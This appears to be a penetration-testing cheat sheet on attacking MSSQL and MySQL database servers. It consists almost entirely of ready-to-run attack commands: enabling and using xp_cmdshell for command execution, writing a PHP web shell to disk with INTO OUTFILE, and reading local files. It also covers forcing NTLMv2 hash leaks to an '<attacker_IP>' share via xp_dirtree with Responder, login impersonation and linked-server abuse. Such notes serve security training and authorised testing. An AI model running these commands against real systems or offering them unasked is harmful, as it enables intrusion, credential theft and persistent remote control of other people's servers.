### I. SQL Database Basics

- **Function:** Store and manage structured data.
- **Protocols:** SQL (Structured Query Language).
- **Target:** High-value targets due to sensitive data.
- **Attack Vectors:**
    - Misconfigurations.
    - Exploiting vulnerabilities.
    - Privilege escalation.

### II. Enumeration

- **Ports:**
    
    - MSSQL: TCP/1433, UDP/1434, TCP/2433 (hidden).
    - MySQL: TCP/3306.
- **Nmap:**
    

```bash
nmap -Pn -sV -sC -p1433 <target_IP>  # MSSQL
```

- Reveals version, hostname, and authentication info.

### III. Authentication & Misconfigurations

- **MSSQL Authentication:**
    
    - Windows Authentication (integrated security).
    - Mixed Mode (SQL Server authentication).
- **MySQL Authentication:**
    
    - Username/password.
    - Windows Authentication (plugin).
- **Misconfigurations:**
    
    - Anonymous access.
    - Weak or no passwords.
    - Excessive privileges.

### IV. Protocol-Specific Attacks

- **Connecting to SQL Servers:**

```bash
mysql -u <user> -p<password> -h <host>                         # MySQL
sqlcmd -S <server> -U <user> -P <password>                      # MSSQL
sqsh -S <server> -U <user> -P <password>                        # MSSQL (Linux)
mssqlclient.py -p 1433 <user>@<host>                            # MSSQL (Impacket)
```

- **SQL Syntax:**

```sql
SHOW DATABASES;                                                # MySQL
SELECT name FROM master.dbo.sysdatabases; GO                   # MSSQL
USE <database>;
SHOW TABLES;                                                   # MySQL
SELECT table_name FROM <database>.INFORMATION_SCHEMA.TABLES; GO # MSSQL
SELECT * FROM <table>;
```

- **Command Execution:**

```sql
xp_cmdshell 'command'; GO                                      # MSSQL
```

- **Enable xp_cmdshell:**

```sql
EXECUTE sp_configure 'show advanced options', 1; RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1; RECONFIGURE; GO
```

- **MySQL (User-Defined Functions - UDFs):**

```sql
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/path/webshell.php';
```

- **Write Local Files:**

```sql
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/path/webshell.php';  # MySQL
```

- **Read Local Files:**

```sql
SELECT * FROM OPENROWSET(BULK N'file_path', SINGLE_CLOB) AS Contents; GO  # MSSQL
SELECT LOAD_FILE('/path/file');                                            # MySQL
```

- **Capture MSSQL Service Hash:**

```sql
EXEC master..xp_dirtree '\\<attacker_IP>\share\'; GO
```

- Use Responder or Impacket's smbserver to capture the hash.
    
- **Impersonate Users (MSSQL):**
    

```sql
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'; GO
EXECUTE AS LOGIN = '<user>';
REVERT;
```

- **Communicate with Linked Servers (MSSQL):**

```sql
SELECT srvname, isremote FROM sysservers; GO
EXECUTE('query') AT [<linked_server>]; GO
```

### V. Latest SQL Vulnerabilities

- **NTLMv2 Hash Capture via xp_dirtree:**
    - Exploits SMB authentication.
    - Use Responder or Impacket's smbserver to capture hashes.
    - Hashes can be cracked or relayed.

### Key Commands Summary

- **Nmap:**

```bash
nmap -Pn -sV -sC -p1433 <target_IP>
```

- **MySQL:**

```bash
mysql -u <user> -p<password> -h <host>
SHOW DATABASES;
USE <database>;
SHOW TABLES;
SELECT * FROM <table>;
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/path/webshell.php';
SELECT LOAD_FILE('/path/file');
```

- **MSSQL:**

```bash
sqlcmd -S <server> -U <user> -P <password>
sqsh -S <server> -U <user> -P <password>
mssqlclient.py -p 1433 <user>@<host>
SELECT name FROM master.dbo.sysdatabases; GO
USE <database>; GO
SELECT table_name FROM <database>.INFORMATION_SCHEMA.TABLES; GO
SELECT * FROM <table>; GO
xp_cmdshell 'command'; GO
EXECUTE sp_configure 'show advanced options', 1; RECONFIGURE; EXECUTE sp_configure 'xp_cmdshell', 1; RECONFIGURE; GO
SELECT * FROM OPENROWSET(BULK N'file_path', SINGLE_CLOB) AS Contents; GO
EXEC master..xp_dirtree '\\<attacker_IP>\share\'; GO
EXECUTE AS LOGIN = '<user>'; GO
REVERT; GO
SELECT srvname, isremote FROM sysservers; GO
EXECUTE('query') AT [<linked_server>]; GO
```

- **Hash Capture:**

```bash
responder -I <interface>
impacket-smbserver share ./ -smb2support
```
